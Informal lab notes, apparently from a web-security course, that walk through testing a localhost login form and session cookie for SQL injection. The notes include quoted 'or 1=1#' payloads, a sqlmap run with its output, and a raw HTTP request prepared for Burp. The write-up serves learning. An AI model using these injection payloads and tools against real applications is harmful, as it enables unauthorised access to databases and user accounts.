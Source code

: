 username=jeremy' or 1=1#&password=password
and encode it 
so this payload will also give invalid creds content length 2122 which is not the original one
Use double quote instead and encode it again 
username=jeremy" or 1=1#&password=password

this will result in fail again same 2122 content length

**Automate**

capture the original request with password=password and save it to req.txt
```python
┌──(cyber㉿kali)-[~/Desktop/bugbounty]
└─$ touch req.txt      

┌──(cyber㉿kali)-[~/Desktop/bugbounty]
└─$ nano req.txt       

┌──(cyber㉿kali)-[~/Desktop/bugbounty]
└─$ sqlmap -r req.txt         
      __H__
 ___ ___[)]_____ ___ ___  {1.8.5#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
     |_|V...       |_|   https://sqlmap.org

```


output after hitting Y for the lab but for real world we should limit the request 

```bash
[16:48:30] [WARNING] POST parameter 'password' does not seem to be injectable
[16:48:30] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'

[*] ending @ 16:48:30 /2024-06-19/
```

Now we have a choice we can go back to manual testing download a payload and try to fuzz it ourselves or do we look for other injections In this case its worth moving on to see what application has to offer 

Back to burp see the request of u'r cookie and this application must be processing it 
So whenever you think about about SQ-i think about everything you are supplying to the application and how it might be used 
THINK OUTSIDE OF THE BOX
what the application is using and what information is processing in our case it must be processing session cookie in some way cuz we got a welcome to our dashboard now sent the request to the intruder which has the session cookie 
set the target host to the localhost and capture the request and send it to repeater

```bash
GET /labs/i0x02.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: session=6967cabefd763ac1a1a88e11159957db
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
```
 the output content length success number is : Content-Length: 1027